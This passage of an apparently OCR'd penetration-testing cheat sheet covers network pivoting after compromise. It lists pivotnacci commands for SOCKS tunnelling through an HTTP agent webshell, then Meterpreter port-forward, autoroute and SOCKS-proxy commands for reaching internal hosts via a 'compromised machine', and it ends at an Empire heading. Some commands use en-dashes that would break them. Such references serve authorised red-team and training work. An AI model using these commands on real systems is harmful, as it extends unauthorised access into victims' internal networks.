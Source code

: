 ## Web SOCKS - pivotnacci

[pivotnacci](https://github.com/blackarrowsec/pivotnacci), a tool to make socks connections through HTTP agents.

```powershell
pip3 install pivotnacci
pivotnacci  https://domain.com/agent.php --password "s3cr3t"
pivotnacci  https://domain.com/agent.php --polling-interval 2000
```

## Metasploit

```powershell
# Meterpreter list active port forwards
portfwd list 

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd add –l 3389 –p 3389 –r target-host 
portfwd add -l 88 -p 88 -r 127.0.0.1
portfwd add -L 0.0.0.0 -l 445 -r 192.168.57.102 -p 445

# Forwards 3389 (RDP) to 3389 on the compromised machine running the Meterpreter shell
portfwd delete –l 3389 –p 3389 –r target-host 
# Meterpreter delete all port forwards
portfwd flush 

or

# Use Meterpreters autoroute script to add the route for specified subnet 192.168.15.0
run autoroute -s 192.168.15.0/24 
use auxiliary/server/socks_proxy
set SRVPORT 9090
set VERSION 4a
# or
use auxiliary/server/socks4a     # (deprecated)


# Meterpreter list all active routes
run autoroute -p 

route #Meterpreter view available networks the compromised host can access
# Meterpreter add route for 192.168.14.0/24 via Session number.
route add 192.168.14.0 255.255.255.0 3 
# Meterpreter delete route for 192.168.14.0/24 via Session number.
route delete 192.168.14.0 255.255.255.0 3 
# Meterpreter delete all routes
route flush 
```

## Empire
